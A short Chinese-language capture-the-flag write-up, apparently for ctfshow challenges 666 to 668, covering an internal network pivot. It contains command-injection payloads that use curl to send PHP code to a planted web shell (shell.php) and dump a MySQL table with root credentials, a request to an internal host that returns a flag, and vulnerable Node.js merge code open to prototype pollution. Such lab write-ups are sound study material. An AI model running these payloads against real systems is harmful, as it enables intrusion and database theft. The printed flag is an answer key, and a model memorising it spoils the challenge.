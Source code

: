 新发现了3000，9000端口

![image-20220330175852219](https://img-blog.csdnimg.cn/img_convert/c11678170ba54bda6429f178ce8a8cfc.png)



# 666

open_basedir绕不过去，ban了chdir

```
/var/www/html:/tmp:/var/oa/
```

连接数据库

```
a=echo `curl -H "Content-Type: application/x-www-form-urlencoded" -X POST -d @/tmp/mysql.txt "http://oa:8888/assets/shell.php"`;
```

mysql.txt

```
1=$conn = new mysqli('localhost','root','root','ctfshow');
$res = $conn->query("select * from ctfshow_secret");
if($res){
	$row=$res->fetch_array(MYSQLI_BOTH);
}
echo $row[0];
$conn->close();
```



# 667

3000端口

```
a=echo `curl "http://172.2.39.5:3000/"`;
```

result

```
<!DOCTYPE html><html><head><title>ctfshow</title><link rel="stylesheet" href="/stylesheets/style.css"><script rel="javascript" href="/javascripts/jquery.js"></script></head><body><h1>ctfshow</h1><p>还是被你找到啦，flag给你flag_667=ctfshow{503a075560764e3d116436ab73d7a560}</p><p>不过你还需要rce me，绝望吗？ </p><p>ctfshow</p></body></html>
```

# 668

题目给了源码

```
/login

utils.copy(user.userinfo,req.body);

function copy(object1, object2){
    for (let key in object2) {
        if (key in object2 && key in object1) {
            copy(object1[key], object2[key])
        } else {
            object1[key] = object2[key]
        }
    }
```